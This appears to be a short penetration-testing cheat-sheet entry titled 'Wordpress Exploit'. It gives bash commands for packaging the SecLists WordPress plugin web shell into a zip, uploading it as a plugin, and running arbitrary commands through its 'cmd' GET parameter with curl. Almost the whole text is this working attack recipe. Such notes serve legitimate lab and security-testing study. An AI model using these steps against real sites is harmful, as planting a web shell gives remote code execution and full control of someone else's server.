 # Wordpress Exploit

## Plugin With Code Execution

We can use the seclists package in order to create a Wordpress plugin which will generate a web-shell:

```bash
#Move to directory
cd /usr/share/seclists/Web-Shells/WordPress

#Compress the PHP
sudo zip plugin-shell.zip plugin-shell.php

#Uplaod the plugin and navigate to directory. Use cmd GET parameter to inject code:
curl http://$DOMAIN/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=
```
